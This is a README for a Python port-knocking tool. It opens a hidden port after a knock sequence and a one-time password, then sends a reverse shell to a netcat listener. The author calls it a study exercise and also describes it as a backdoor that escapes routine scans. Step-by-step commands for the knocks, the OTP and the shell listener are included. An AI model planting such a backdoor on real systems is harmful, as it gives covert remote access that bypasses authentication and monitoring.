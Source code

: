 # Python Port Knocking

- This code was made with the purpose to practice things that I have studied recently about python programming and security:
    - socket library: a socket is an endpoint of a communication between two programs running on a network. Sockets are used to create a connection between a client program and a server program. Python's socket module provides an interface to the Berkeley sockets API.
    - Port Knocking: is a stealth method to externally open ports that, by default, are closed. It works by requiring connection attempts to a series of predefined closed ports. With a simple port knocking method, when the correct sequence of port "knocks" (connection attempts) is received, certain port(s) are open to allow a connection. For its implementation, Pypacker will be used.
    - One-time Password (OTP): is a string of characters or numbers that authenticates a user for a single login attempt or transaction. An algorithm generates a unique value for each one-time password by factoring in contextual information, like time-based data or previous login events. PyOTP will be used to implement a Time-based One-time Password.
    - Reverse shell: A reverse shell is a shell session established on a connection that is initiated from a remote machine.

- Since this is an alternative way of accessing a system ignoring authentication methods, this code can be used as a form of backdoor, with the characteristic that no port is left open (only after port knocking), making detection more difficult during routine scans.



## Flowchart

<p align="center">
  <img src="./flowchart.png" alt="Flowchart"/>
</p>

- 1,2,3: Port Knocking. After connecting to specific ports (default 1337, 1338, 1339) in order and within a timeout between connections (standard 5s), the OTP port will be opened.
- 4: Verify OTP. By default, OTP password is sent to port 1340.
- 5: Return a shell. By default, shell is sent to port 12345.



## Usage

0. Before, make sure you have the necessary libraries installed: 
    > `pip install -r requirements.txt`  

1. Let's use netcat to listen on a port that will soon receive the shell:
    > `nc -vlp 12345`

2. On another terminal configure and execute the script. Customize the base32 Secret Key:
    > `python -c "import pyotp; print(pyotp.random_base32())"`  
Replace the base32 Secret Key hardcoded in the script with the newly generated value. You can customize the parameters ports_list, timeout, port_otp and port_reverse_shell in the script. Execute the script:  
    > `sudo python script.py`

3. Open one more terminal to perform the Port Knocking:
    > `nc <remote_machine> 1337`  
    > `nc <remote_machine> 1338`  
    > `nc <remote_machine> 1339`  
Of course you can simply run in localhost. Port 1340 will now be open.

4. Getting the current OTP password:
    > `python -c "import pyotp; print(pyotp.TOTP('your_base32_Secret_Key').now())"`

5. Send the OTP password to the newly opened port 1340:  
    > `echo "<otp_password>" | nc <remote_machine> 1340`  
Your listening port will receive the remote shell.
